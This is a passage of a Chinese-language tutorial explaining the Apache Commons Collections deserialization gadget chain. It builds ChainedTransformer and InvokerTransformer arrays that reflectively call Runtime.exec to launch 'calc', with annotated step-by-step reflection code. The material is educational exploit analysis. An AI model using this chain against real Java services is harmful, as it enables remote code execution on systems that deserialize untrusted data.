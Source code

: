 这样就跟setValue的值没有任何关系了，所以第一次调用的必须是ConstantTransformer类

那这时候又有问题了，按下方的代码写就可以直接触发了，第一次循环得到Runtime对象，第二次直接反射调用exec函数执行命令即可

```java
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.getRuntime()),
        new InvokerTransformer("exec", new Class[]{String.class},
                new Object[]{"calc"})
};
Transformer chain = new ChainedTransformer(transformers) ;
```

这里的确可以触发，但是在序列化时会报错。因为Runtime未实现Serializable接口，无法序列化而Class类实现了Serializable，可以序列化，所有必须是Runtime.class

而这时候第一次input.getClass()会返回 Runtime.class 的class对象..就是Class类的class对象了..所以这时候构造就很繁琐了，必须通过反射获取到Class类的Method对象，然后通过invoke获取到Runtime对象，在调用exec方法执行命令

所以

```java
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},
                new Object[]{"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class},
                new Object[]{null, new Object[0]}),
        new InvokerTransformer("exec", new Class[]{String.class},
                new Object[]{"calc"})
};
Transformer chain = new ChainedTransformer(transformers) ;
```

等同于

```java
Class runtimeClass = Runtime.class;
Class cls = runtimeClass.getClass(); //相当于获取了Class类的class对象
System.out.println(cls);

//获取getMethod方法的Method对象，
//getMethod方法有两个参数，一个String.class是执行的方法名称 ，Class[].class是参数类型...确实有点绕这里
Method method = cls.getMethod("getMethod", String.class, Class[].class);
//调用invoke获取Method对象，要执行的是Runtime的getRuntime方法，参数没有则写成了null，runtimeClass为Runtime的class对象
Object o = method.invoke(runtimeClass,new Object[]{"getRuntime",null});
System.out.println(o.getClass());
/*
执行到这里其实等于下面代码中获取到Method对象test了，接下来我们需要执行invoke函数，这需要下一轮循环了
Class testc = Runtime.class;
Method test = testc.getMethod("getRuntime");
*/

Class cls2 = o.getClass();//相当于获取了Method类的Class对象
//获取Method对象的invoke方法，进行调用getRuntime，返回Runtime对象
//invoke方法有两个参数,一个Object.class是传入当前对象，Object[].class为实参
Method method1 = cls2.getMethod("invoke",Object.class,Object[].class);
//执行，相当于调用了Runtime的getRuntime方法，返回了Runtime对象
Object o1 = method1.invoke(o,null,null);
/*
这里就相当于调用invoke函数获取到了Runtime对象
Runtime testo = (Runtime)test.invoke(testc);
testo.exec("calc");
*/

System.out.println(o1.getClass());
Class cls3 = o1.getClass();//Runtime类的class对象，可以直接反射调用exec方法执行命令了
Method method2 = cls3.getMethod("exec",String.class);
method2.invoke(o1,"calc");
```